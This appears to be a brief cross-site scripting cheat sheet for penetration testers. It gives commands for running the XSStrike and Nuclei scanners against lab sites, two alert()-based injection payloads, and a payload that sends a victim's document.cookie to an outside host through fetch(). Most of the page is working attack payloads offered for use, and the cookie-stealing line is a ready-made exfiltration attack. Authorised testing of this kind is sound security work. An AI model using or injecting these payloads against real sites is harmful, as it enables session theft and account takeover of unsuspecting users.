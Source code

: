 ```yaml
---
description: Cross-site scripting (XSS) cheat sheet
---
```


# Cross-site scripting (XSS)

### Tools

XSStrike - [https://github.com/s0md3v/XSStrike](https://github.com/s0md3v/XSStrike)

{% code overflow="wrap" %}
```bash
# Install
git clone https://github.com/s0md3v/XSStrike
cd XSStrike
python3 -m venv xsstrike_env
source xsstrike_env/bin/activate
pip3 install -r requirements.txt

# run
python3 xsstrike.py -u https://www.codelatte.id/labs/xss/1.php?q= --fuzzer
python3 xsstrike.py -u https://www.codelatte.id/labs/xss/1.php --crawl -l 4
```
{% endcode %}

Nuclei

{% code overflow="wrap" %}
```bash
nuclei -u http://testphp.vulnweb.com/ -tags xss
```
{% endcode %}

### Simple Payload

This is a simple payload that I commonly use for XSS testing.

Inside HTML Tag

{% code overflow="wrap" %}
```javascript
" autofocus onfocus=alert(document.domain) x="
```
{% endcode %}

Breaking Tag

{% code overflow="wrap" %}
```javascript
"/><img src=x onerror=alert(document.domain) />
```
{% endcode %}

Stealing cookie

{% code overflow="wrap" %}
```javascript
<img src="x" onerror="fetch('http://10.10.1.3:8000?c=' + encodeURIComponent(document.cookie))">
```
{% endcode %}

### Resources

* [https://portswigger.net/web-security/cross-site-scripting/cheat-sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
* [https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting)
* [https://raw.githubusercontent.com/carlospolop/Auto\_Wordlists/main/wordlists/xss.txt](https://raw.githubusercontent.com/carlospolop/Auto\_Wordlists/main/wordlists/xss.txt)
